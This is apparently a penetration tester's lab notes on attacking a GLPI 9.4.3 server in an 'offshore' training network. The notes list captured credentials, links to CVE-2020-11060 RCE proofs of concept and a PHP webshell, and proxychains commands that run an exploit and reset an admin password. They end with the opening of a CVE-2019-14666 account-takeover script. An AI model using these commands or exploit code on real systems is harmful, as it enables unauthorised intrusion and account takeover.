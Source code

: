 ```powershell
postonly/postonly (only for helpdesk)  
normal/normal 
```
![[Pasted image 20240118114306.png]]
on as `normal` user, need to find version to begin RCE
![[Pasted image 20240118114535.png]]`dlpi 9.4.3` is in the screen shot in the bottom right and currently logged in as user `normal/normal`

https://github.com/0xdreadnaught/cve-2020-11060-poc
https://offsec.almond.consulting/playing-with-gzip-rce-in-glpi.html
https://www.exploit-db.com/exploits/49992
https://github.com/zeromirror/cve_2020-11060
https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php

```powershell
[root💀~/SUT/offshore/mgmt01] [10.10.14.39] [2024-01-18 14:58:04] 
└─╼ # proxychains python3 CVE-2020-11060.py --url 'https://172.16.2.12' --user 'normal' --password 'normal' --platform 'win'
```
need to change the `offset` of the script to the correct `offset`, this is found by somehow `sql dumping` for `wifinetworks` offset - havent found a method to do this. Could open up `burpsuite` next. 

says `dc02` isnt allowed to connect to the sql database
![[Pasted image 20240118154011.png]]


```powershell
proxychains python3 CVE-2020-11060.py –url https://172.16.2.12/ -–user normal -–password normal –email glpi_adm@offshore.com -–newpass shell
```

zeromirror


glpi account takeover 
https://www.tarlogic.com/blog/glpi-vulnerability-cve-2019-14666/

# Original CVE-2019-14666
```python
#!/usr/bin/python
#
#  Description: Exploit for CVE-2019-14666 (GLPI <=9.4.3 account takeover)
#  Author: @xassiz (Tarlogic)
#
import re
import sys
import json
import argparse
import requests
class GlpiBrowser:
    def __init__(self, url, user, password):
        self.url = url
        self.user = user
        self.password = password
        
        self.session = requests.Session()
        self.session.verify = False
        requests.packages.urllib3.disable_warnings()
    
    
    def extract_csrf(self, html):
        return re.findall('name="_glpi_csrf_token" value="([a-f0-9]{32})"', html)[0]
    
    def get_login_data(self):
        r = self.session.get('{0}'.format(self.url), allow_redirects=True)
        
```